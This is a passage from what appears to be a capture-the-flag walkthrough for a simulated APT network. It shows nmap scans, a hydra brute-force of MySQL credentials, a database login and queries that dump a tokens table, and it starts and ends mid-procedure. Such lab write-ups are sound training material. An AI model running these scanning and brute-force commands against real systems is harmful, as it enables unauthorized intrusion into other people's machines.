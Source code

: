 2. If you have the correct IP range, you will find one machine (e.g., `252.119.111.154`) in this subnet with the TCP port 1114. Let’s discover what service is on this port.

```bash
sudo nmap -sV -p 1114 252.119.111.154 -oN scan3.txt
```

3. We see MySQL. Recall, the challenge instructions say weak usernames and weak passwords might be in use. Using tools like **xhydra**, **hydra** allow competitors to discover the username is *user* and the password is *password* (very weak credentials indeed!). Here is an example of how to use hydra to brute force these credentials using **hydra** and the wordlist provided in game: 

```bash
hydra -L /media/cdrom0/wordlist.txt -P /media/cdrom0/wordlist.txt 252.119.111.154 mysql -s 1114
```

Once credentials are found, run the command below and enter obtained password.

```bash
mysql -u user -p --host=252.119.111.154 --port=1114
```

4. We now have remote access to the APT group’s MySQL database. Run the commands below to search for Token 2.

```
SHOW databases;
USE tokens;
SHOW tables;
SELECT * FROM tokens;
```

5. Here we see Token 2!

### Token 3: Bot/C2 Machine

1. Perform a basic scan in the Bot/C2 country's Suspected Critical IP Block.

```bash
sudo nmap -T4 247.187.158.0/24 -oN scan4.txt
```

2. Nothing appears. Run the command below to see if any TCP ports are open.

```bash
sudo nmap -T4  -p- 247.187.158.0/24 -oN scan5.txt
```

3. Again, nothing appears. Extract another pcap file (follow the procedure documented above) and look for any IP addresses in the `247.187.158.0/24` range. It appears a machine is looping through, scanning `10.5.5.50-70` (e.g., `247.187.158.57`). It is looking on TCP/80; however, no machines are accepting connections. Let’s see what happens if we allow the three-way handshake to occur.
4. On a Kali machine that has an IP address within `10.5.5.50-70`, start **apache2**.

```bash
sudo systemctl start apache2
```

5. After a couple of minutes, export another pcap file and see what happened. You can run the command below instead to look at network traffic.
